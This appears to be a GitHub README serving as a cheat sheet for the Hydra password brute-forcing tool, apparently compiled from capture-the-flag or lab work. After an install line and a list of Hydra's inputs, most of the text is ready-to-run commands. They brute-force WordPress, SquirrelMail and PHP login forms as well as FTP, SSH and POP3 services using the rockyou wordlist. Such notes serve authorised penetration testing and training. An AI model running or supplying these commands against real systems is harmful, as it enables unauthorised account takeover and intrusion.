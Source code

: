 [![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

# hydra
[https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra]
<hr/>

## install hydra in Linux
```sh
sudo dnf -y install hydra
```

## How hydra works
Using Hydra to Brute-Force Our First Login Page

Hydra is a fairly straight forward tool to use, but we have to first understand what it needs to work correctly. We’ll need to provide the following in order to break in:

- Login or Wordlist for Usernames
- Password or Wordlist for Passwords
- IP address or Hostname        
- HTTP Method (POST/GET)
- Directory/Path to the Login Page
- Request Body for Username/Password
- A Way to Identify Failed Attempts



> hydra -l <username> -p <password> <server> <service> -s <port> -t <thread> -o <output>
> -L <users> -P <passwords>

```sh
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt target.ip http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
```

```sh
hydra -L username.txt -P password.txt 192.168.1.37 ftp -s 21
```

hydra -l <username> -p <password> ssh://<ip>



- hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://target.ip -o hydra.ssh.jake
- hydra -l john -P /usr/share/wordlists/rockyou.txt target.ip -s 62337 http-post-form "/components/user/controller.php?action=authenticate:username=john&password=^PASS^:Incorrect Username or Password" -o hydra.http.john
- hydra -V -I -L usernames.txt -P log1.txt target.ip  http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect." -o hydra.http
- hydra -I -L usernames.txt -P passwords.txt pop3://target.ip -t 64 -o hydra.pop3
- hydra -L fsocity.dic.uniq -p password target.ip -t 64 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget.ip%2Fwp-admin%2F&testcookie=1:F=Invalid username"


